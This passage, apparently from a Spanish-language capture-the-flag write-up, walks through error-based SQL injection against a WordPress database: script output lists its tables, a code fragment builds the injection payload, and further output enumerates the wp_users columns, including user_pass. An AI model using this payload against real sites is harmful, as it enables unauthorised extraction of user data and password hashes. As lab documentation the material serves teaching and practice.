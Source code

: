 ```bash
❭ python3 ex_tables.py wordpress
[+] Extrayendo tablas de la base de datos wordpress: d0Ne
[+] Payload: d0Ne
[+] Tabla [0]: wp_commentmeta
[+] Tabla [1]: wp_comments
[+] Tabla [2]: wp_links
[+] Tabla [3]: wp_options
[+] Tabla [4]: wp_postmeta
[+] Tabla [5]: wp_posts
[+] Tabla [6]: wp_term_relationships
[+] Tabla [7]: wp_term_taxonomy
[+] Tabla [8]: wp_termmeta
[+] Tabla [9]: wp_terms
[+] Tabla [10]: wp_usermeta
[+] Tabla [11]: wp_users

k3Ep br3ak1n6 4anYyyu...

```

Bien, 12 tablas, juguemos con el script para extraer columnas de las tablas:

#### SQL injection - Columnas wordpress DB

```py
...
table_name = sys.argv[2]
table_name_hex = table_name.encode('utf-8').hex()
...
    payload = "(SELECT 8350 FROM(SELECT COUNT(*),CONCAT(0x5441424C45,(SELECT MID((IFNULL(CAST(column_name AS NCHAR),0x20)),1,50) FROM INFORMATION_SCHEMA.COLUMNS "
    payload += "WHERE table_schema IN (0x%s) AND table_name IN (0x%s) LIMIT %d,1),0x5441424C45,FLOOR(RAND(0)*2))x " % (db_name_hex, table_name_hex, table_position)
    payload += "FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)nada)"
...
```

Le indicamos que ahora tome en otro parametro la tabla a fuzzear, ejecutandolo contra la tabla `wp_users`, tenemos:

```bash
❭ python3 ex_colums.py wordpress wp_users
[+] Extrayendo columnas de la tabla wp_users: d0Ne
[+] Payload: d0Ne
------------------------------------------·
[+] Columna [0]: ID
[+] Columna [1]: user_login
[+] Columna [2]: user_pass
[+] Columna [3]: user_nicename
[+] Columna [4]: user_email
[+] Columna [5]: user_url
[+] Columna [6]: user_registered
[+] Columna [7]: user_activation_key
[+] Columna [8]: user_status
[+] Columna [9]: display_name

k3Ep br3ak1n6 4anYyyu...

```
